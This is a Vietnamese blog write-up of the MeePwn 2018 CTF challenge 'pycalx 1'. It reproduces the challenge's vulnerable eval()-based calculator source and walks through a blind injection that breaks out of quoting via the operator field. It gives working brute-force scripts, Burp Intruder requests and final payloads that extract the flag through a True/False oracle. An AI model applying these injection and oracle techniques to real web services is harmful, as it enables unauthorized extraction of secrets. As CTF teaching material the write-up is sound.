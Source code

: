 ```yaml
---
title: "Meepwn qual round - pycalx 1"
date: 2018-09-11T02:38:33+07:00
author: "Kev"
tags: ["ctf", "python"]
comments: true
draft: false
---
```


Thử thách cung cấp cho mình 1 form dữ liệu cùng với sourcecode như sau:

{{<highlight python3>}}
#!/usr/bin/env python
import cgi;
import sys
from html import escape

FLAG = open('/var/www/flag','r').read()

OK_200 = """Content-type: text/html

<link rel="stylesheet" href="https://maxcdn.bootstrapcdn.com/bootstrap/4.0.0/css/bootstrap.min.css">
<center>
<title>PyCalx</title>
<h1>PyCalx</h1>
<form>
<input class="form-control col-md-4" type=text name=value1 placeholder='Value 1 (Example: 1  abc)' autofocus/>
<input class="form-control col-md-4" type=text name=op placeholder='Operator (Example: + - * ** / // == != )' />
<input class="form-control col-md-4" type=text name=value2 placeholder='Value 2 (Example: 1  abc)' />
<input class="form-control col-md-4 btn btn-success" type=submit value=EVAL />
</form>
<a href='?source=1'>Source</a>
</center>
"""

print(OK_200)
arguments = cgi.FieldStorage()

if 'source' in arguments:
    source = arguments['source'].value
else:
    source = 0

if source == '1':
    print('<pre>'+escape(str(open(__file__,'r').read()))+'</pre>')

if 'value1' in arguments and 'value2' in arguments and 'op' in arguments:

    def get_value(val):
        val = str(val)[:64]
        if str(val).isdigit(): return int(val)
        blacklist = ['(',')','[',']','\'','"'] # I don't like tuple, list and dict.
        if val == '' or [c for c in blacklist if c in val] != []:
            print('<center>Invalid value</center>')
            sys.exit(0)
        return val

    def get_op(val):
        val = str(val)[:2]
        list_ops = ['+','-','/','*','=','!']
        if val == '' or val[0] not in list_ops:
            print('<center>Invalid op</center>')
            sys.exit(0)
        return val

    op = get_op(arguments['op'].value)
    value1 = get_value(arguments['value1'].value)
    value2 = get_value(arguments['value2'].value)

    if str(value1).isdigit() ^ str(value2).isdigit():
        print('<center>Types of the values don\'t match</center>')
        sys.exit(0)

    calc_eval = str(repr(value1)) + str(op) + str(repr(value2))

    print('<div class=container><div class=row><div class=col-md-2></div><div class="col-md-8"><pre>')
    print('>>>> print('+escape(calc_eval)+')')

    try:
        result = str(eval(calc_eval))
        if result.isdigit() or result == 'True' or result == 'False':
            print(result)
        else:
            print("Invalid") # Sorry we don't support output as a string due to security issue.
    except:
        print("Invalid")


    print('>>> </pre></div></div></div>')
{{</highlight>}}

Server nhận dữ liệu ở 3 biến: `value1`, `value2` và `op`. Cả 3 biến đều bị filter, chức năng là thực hiện phép tính nhập từ người dùng.

{{<highlight python>}}
>>>> print('aa'+'bbb')
Invalid
>>>
>>>> print(1111*222)
246642
{{</highlight>}}

Mục đích rất rõ ràng, phải tìm cách để gọi biến Flag ra, nhưng xem code ở dòng này thì chương trình đã chặn output (tức là dạng blind).

{{<highlight python>}}
if result.isdigit() or result == 'True' or result == 'False':
    print(result)
else:
    print("Invalid")
{{</highlight>}}

Khi rà soát lại code, mình phát hiện code có 1 điểm hơi lạ, ở function `get_op(val)` nhận độ dài biến val tận 2 kí tự nhưng chỉ filter đúng kí tự đầu, nên mình nghĩ ra cách để break dấu `'` chèn biến `FLAG` vào, đồng thời thực hiện so sánh để nhận giá trị `True`, `False`.

{{<highlight python>}}
>>>> print('a'+''<FLAG#')
False
{{</highlight>}}

Có vẻ đi đúng hướng, được biết trước là flag có dạng `MeePwnCTF{}` tiếp theo mình test thế này:

{{<highlight python>}}
>>>> print('L'+''>FLAG#')
False
>>>
>>>> print('M'+''>FLAG#')
False
>>>
>>>> print('N'+''>FLAG#')
True
{{</highlight>}}

Test theo bảng chữ `printable` từ đầu đến khi gặp response trả về là `True` và lấy kí tự trước đó:

{{<highlight python3>}}
# python 3.6
import requests
import string
import sys
from urllib.parse import quote_plus
url = "http://178.128.96.203/cgi-bin/server.py?value1={}&op=%2B%27&value2=%3EFLAG%23"
wordlist = list(string.printable[:-6])
wordlist.sort()
temp = "_"
flag = "MeePwnCTF{"
while True:
	for char in wordlist:
		sys.stdout.write(temp)
		sys.stdout.flush()
		r = requests.get(url.format(quote_plus(flag+char)))
		if ("True" in r.text):
			flag += temp
			break
		temp = char
		sys.stdout.write("\b")
{{</highlight>}}

Flag chạy tới đoạn `MeePwnCTF{python3.66666666666666_` thì bị lỗi. Có anh trong team bảo là do trong flag có kí tự bị chặn `[]()'"` nên không chạy tiếp được nữa. Lúc này mình tưởng ra flag rồi, ai ngờ …..đành tính cách khác. Suy nghĩ hơi lâu không tìm ra được cách nào để gửi lên kí tự bị chặn đấy nhưng mình có kế tạm thời là đoán tất cả những kí tự không bị chặn nhưng chưa tìm ra, ví dụ `MeePwnCTF{python3.66666666666666_*[][][][][]*xxxxxxxxx}` mình có thể tìm được kí tự xxxx đó mà không cần biết kí tự đặc biệt. Payload mình build như sau:

{{<highlight python>}}
>>>> print('Mee'+'' in FLAG#')
True
>>>
>>>> print('}'+'' in FLAG#')
True
{{</highlight>}}

Sourcecode trước không dùng được nữa nên mình dùng burp suite intruder thay thế (mất thời gian quá {{<emoji ah>}})

```
GET /cgi-bin/server.py?value1=§_§&op=%2B%27&value2=%20in%20FLAG%23 HTTP/1.1  => Tìm tất cả kí tự có trong FLAG
```

{{<figure src="/images/posts/meepwn.png" width="100%" title="Burpsuite intruder">}}

Tiếp đó, mình sẽ đoán cụm từ trong flag

```
GET /cgi-bin/server.py?value1=§_§a&op=%2B%27&value2=%20in%20FLAG%23 HTTP/1.1  => Tìm kí tự đứng trước a
GET /cgi-bin/server.py?value1=a§_§&op=%2B%27&value2=%20in%20FLAG%23 HTTP/1.1  => Tìm kí tự đứng sau a
```

Cứ như thế đến hết danh sách kí tự tìm được thì mình tìm được 80% flag như là `MeePwnCTF{python3.66666666666666_*you_passed_this?*}` dấu * là kí tự đặc biệt. Sau khi làm xong bước này thì anh trong team quăng cho payload:

```
http://178.128.96.203/cgi-bin/server.py
?value1=M
&op=%2B%27
&value2= %2b source < FLAG%23
&source=e
>>>> print('M'+'' + source < FLAG#')
True
```

Vậy là xong, biến source không bị filter nên thoải mái mà inject. Payload cuối cùng là thế này:

{{<highlight python3>}}
# Python 3.6
import requests
import string
import sys
from urllib.parse import quote_plus
# url = "http://178.128.96.203/cgi-bin/server.py?value1={}&op=%2B%27&value2=%3EFLAG%23"
url = "http://178.128.96.203/cgi-bin/server.py?value1=MeePwnCTF%7bpython3.66666666666666_&op=%2B%27&value2=%20%2b%20source%20%3E%20FLAG%23&source={}"
wordlist = list(string.printable[:-6])
wordlist.sort()
temp = "_"
flag = ""
sys.stdout.write("MeePwnCTF{python3.66666666666666_")
while True:
	for char in wordlist:
		sys.stdout.write(temp)
		sys.stdout.flush()
		r = requests.get(url.format(quote_plus(flag+char)))
		if ("True" in r.text):
			flag += temp
			break
		temp = char
		sys.stdout.write("\b")
{{</highlight>}}


FLAG: `MeePwnCTF{python3.66666666666666_([_((you_passed_this?]]]]]])}`